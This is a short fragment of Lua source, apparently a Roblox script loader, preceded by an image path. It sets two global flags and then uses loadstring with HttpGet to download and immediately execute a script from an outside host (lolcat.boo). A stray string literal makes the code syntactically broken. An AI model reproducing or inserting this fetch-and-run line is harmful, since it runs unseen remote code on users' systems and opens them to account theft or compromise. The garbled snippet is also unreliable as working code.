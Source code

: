 _G.GetEnter = true
_G.GetMouse = true
"Enter" loadstring(game:HttpGet("https".."://lolcat.boo/awesomescript"))()
